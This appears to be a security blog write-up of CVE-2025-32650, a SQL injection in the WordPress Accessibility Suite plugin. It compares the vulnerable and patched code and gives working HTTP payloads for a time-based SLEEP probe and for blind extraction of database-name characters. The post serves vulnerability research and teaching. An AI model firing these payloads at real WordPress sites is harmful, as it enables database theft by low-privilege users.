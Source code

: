 ```yaml
---
title: CVE-2025-32650 Analysis & POC
description: Security Vulnerability in WordPress Accessibility Suite Plugin.
date: 2025-09-26 10:36:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


---

The vulnerability occurs in the **Accessibility Suite** plugin for WordPress before version **4.19**.  
This allows an attacker to directly interact with the database, potentially stealing sensitive information.

- **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
- **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 4.18
- **CVSS Severity**: High (8.5)
- **Required Privilege**: Subscriber

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Accessibility Suite**:  v4.18 (vulnerable) and v4.19 (patched)
- **Diff tool**: **meld** or any other comparison tool to spot version differences

---

## Analysis
The plugin failed to properly typecast user input. Although it used `prepare()` to prevent SQLi, the implementation was **incorrect**, leaving the vulnerability exploitable.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A key difference appears in **includes/classes/Helper.php**.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
````

The patched version passes `$scan_id` as a parameter to the query instead of directly concatenating it.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

![Patch Diff](patch_diff.png "Patch Diff")

### How it works

The vulnerability resides in the static function `save_false_positive` of class `Helper` in **includes/classes/Helper.php**.
To locate where it’s called, search for `save_false_positive` in the plugin directory.

![Search for save\_false\_positive](search_1.png "Search Function Call")

👉 The `save_false_positive` function is called as a **callback** by the action hook `wp_ajax_ONLINE_ADAv4/save_false_positive`.

When a **POST** request is sent to `/wp-admin/admin-ajax.php` with
`action=ONLINE_ADAv4/save_false_positive`, the callback is executed.
It requires two POST parameters: `issue_id` and `scan_id`.
If they’re missing, the app returns:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

The function checks if the user has admin privileges; if not, it returns an empty string.

```php
if(! is_admin()) {
    return '';
}
```

Then, the parameters are directly concatenated into the vulnerable SQL query.

---

## Exploit

### Detecting the SQLi

Send a **POST request** containing an SQLi payload.
Since it only requires an authenticated user with access to `/wp-admin/`, we can use a **subscriber** role — the lowest privilege in WordPress.
Higher roles inherit lower privileges, so this confirms the CVE’s description.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

The resulting SQL query becomes:

```sql
SELECT list FROM wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

![Time-based response](time_response.png "Time-based SQLi Response")

👉 The delayed response confirms that the SQLi payload works.

**Alternative techniques for empty tables:**

* **UNION** — works even when the base query returns no rows, but you must find the correct column count.
* **Subquery**:

  * **In WHERE clause:** MySQL may optimize it away if results are predictable.
  * **In FROM clause:** The subquery executes first to create a temporary table, ensuring the injected query runs.

![SQL Execution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL Execution Order Diagram")

---

### Extracting the First Letter of the Database Name

To fully dump data, we first confirm that SQLi allows reading at least **one character** from the database name.

Use this payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

The query uses `SUBSTRING()` to extract the first character of the database name.
If it equals `'w'` (`0x77` in hex), it triggers `SLEEP(5)`.

Since `scan_id` is escaped, hex encoding ensures payload integrity.

👉 Based on the delayed response — the first character **is indeed `w`**.

---

## Conclusion

The vulnerability **CVE-2025-32650** in the **Accessibility Suite** WordPress plugin (before version 4.19) stems from **improper use of `$wpdb->prepare()`**, leading to a SQL Injection.

The official patch correctly uses `$wpdb->prepare()`, ensuring safe handling of user input.

**Key takeaways:**

* Always use `$wpdb->prepare()` correctly when interacting with the WordPress database.
* Keep plugins updated and perform regular security audits to prevent exploitation.

---

## References

* [SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection](https://wordpress.org/plugins/online-accessibility/)

---
